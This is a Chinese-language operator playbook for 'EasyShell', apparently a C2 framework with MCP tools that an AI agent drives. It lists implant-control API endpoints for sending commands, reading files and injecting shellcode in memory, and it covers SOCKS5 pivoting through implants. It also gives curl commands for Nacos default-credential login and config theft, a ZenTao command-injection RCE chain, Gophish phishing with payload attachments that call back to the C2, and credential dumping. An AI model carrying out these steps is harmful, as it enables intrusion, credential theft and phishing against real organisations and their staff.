

# easyshell-pentest: EasyShell 内网渗透实战

> **核心逻辑:** EasyShell 控植入体 → 信息收集 → SOCKS5（注意出口）→ 漏洞链 → 凭据横向

---

## 零、EasyShell API 速查

```
前缀: /prod-api/api
认证: Authorization2: Bearer <JWT>
加密: AES-GCM（见 easyshell_web/src/utils/crypto/apiCrypto.ts）
```

### 植入体控制

| 端点 | 方法 | 说明 |
|------|------|------|
| `/client/clientslist` | GET | 列表 |
| `/client/shell/sendcommand` | POST | 下发命令 |
| `/client/shell/getshellcontent` | GET | 轮询输出 |

### 文件

| 端点 | 方法 | 注意 |
|------|------|------|
| `/client/file/tree` | POST | `dirPath` |
| `/client/file/filecontent` | POST | 完整 `path` |
| `/client/file/upload` | multipart | 跳加密 |

### 内存执行 / 插件

| 端点 | 说明 |
|------|------|
| `/plugin/memory-exec` | Extensions relPath |
| `/plugin/execute` | 插件表执行 |
| `/client/script-plugins/manifest` | CNA 转 JSON 插件树 |

**Windows 内存模式：** execute-assembly、inline-bin、shellcode-inject、inline-execute

### 隧道

| 端点 | 说明 |
|------|------|
| `/socks5/start` | Type: socks5/tcp/udp |
| `/socks5/list` | 按 uid 过滤 |

---

## 一、架构速览（四仓库）



| 组件 | 路径 | 职责 |
|------|------|------|
| TeamServer | easyshell_server | API、监听器、隧道、GenServer |
| 控制台 | easyshell_web | 操作 UI、API 加密客户端 |
| 植入体 | easyshell_client_go / _rust | websocket/tcp/kcp/http/oss |
| 插件 | Extensions/easyshell_plugins | CNA 迁移 JSON manifest |

---

## 二、SOCKS5 隧道（避坑）

```
TeamServer:1080 监听 → 流量从植入体出口
```

- 建完先测: `curl --socks5 127.0.0.1:port --max-time 5 http://目标/`
- 本机直连优先

---

## 三、Nacos 利用链

```bash
curl -H 'User-Agent: Nacos-Server' 'http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=10'
curl -X POST 'http://target:8848/nacos/v1/auth/login' -d 'username=nacos&password=nacos'
curl 'http://target:8848/nacos/v1/cs/configs?accessToken=TOKEN&dataId=xxx&group=DEFAULT_GROUP'
```

---

## 四、禅道 RCE

1. `?m=misc&f=captcha&sessionVar=user` session 注入
2. `repo-create` + SCM=Subversion + client=`id; #`
3. 输出：写文件 → base64 → 读

---

## 五、邮件钓鱼（Gophish 内嵌）

EasyShell 内嵌 Gophish，与 C2 共用数据库与 JWT 认证；钓鱼服务独立监听（默认 `8081`）。

```
Web /Gophish Hub
  → /gophish-hub/status | build-attachment
  → /gophish/api/*（代理，白名单）
  → Gophish 钓鱼服务（追踪/落地页/发信）
  → 载荷回连 EasyShell 监听器
```

| 设置键 | 说明 |
|--------|------|
| `gophish_enabled` | 模块开关 |
| `gophish_phish_listen_url` | 钓鱼服务 `host:port` |
| `gophish_contact_address` | 披露联系地址 |
| `gophish_integration_easyshell` | 模板一键生成载荷附件 |

**演练链路：** SMTP → 用户组 → 模板（+载荷附件）→ 落地页 → 活动 → 结果/凭据 → `/Clients` 等上线。

**三种模式：** 链接钓鱼（URL+落地页）、附件钓鱼（build-attachment + 监听器）、纯文本。

完整 SOP 见 [[easyshell-phishing]]。

---

## 六、EasyShell 特有能力

### GenServer / WebDelivery / Shellcode

完整 SOP 见 [[easyshell-payload]]。MCP：`gen_payload`、`gen_shellcode`、`start_webdelivery`、`webdelivery_control`。

- 监听器类型: websocket、tcp、kcp、http-beacon、https-beacon、dns、doh、oss
- 分阶段 shellcode: Web `/Server` + `/Listeners`（MCP 当前仅 stageless）
- WebDelivery 投递 + 临时解锁 API

### 后渗透内置（部分仅 Web）

- **屏幕截屏 / 截屏历史** — 单次截屏走同步 REST，MCP 已封装（`easyshell_screen_capture` → 图片落本机 → **对话内展示**；历史 `screen_history*` 回看/清理，见 [[easyshell-real]]）；**实时键鼠 / 录屏流**为 WebSocket，仅 Web
- **HVNC** — 客户端菜单（WebSocket 流，MCP 不可用）
- 凭据 dump、pypykatz — 后渗透面板
- PID 注入/迁移、forward-connection — MCP 已封装

### CNA → EasyShell 插件

见 `docs/skills/cna-to-easyshell/SKILL.md`：`memory_exec` 替代 beacon_*。

---

## 七、渗透节奏

### ✅ 正确

```
1. 一次一个 API
2. 扫描用 inline-bin
3. 读文件用 file/filecontent
4. 隧道建完测 TCP
5. 开发改 API 时对照 TeamServer 路由与 Web 调用
```

### ❌ 错误

```
1. 裸 HTTP 调控制台 API
2. 读文件须传完整 path，不要照搬 path+target 分离写法
3. 连续 sendcommand 不轮询
4. HTTP Beacon 大 sleep 下期待秒级回显
```

---

## 八、参考

- MCP 工具全集：`easyshell-mcp` skill（server/web API 映射）
- [[easyshell-payload]] — 载荷生成与 Web 投递
- [[easyshell-phishing]] — 邮件钓鱼演练 SOP
- [[easyshell-real]] — MCP 日常操作
- [[easyshell-lateral]] — 内网 SOP
- [[easyshell-package/README]]
- easyshell_server/docs/USAGE.md
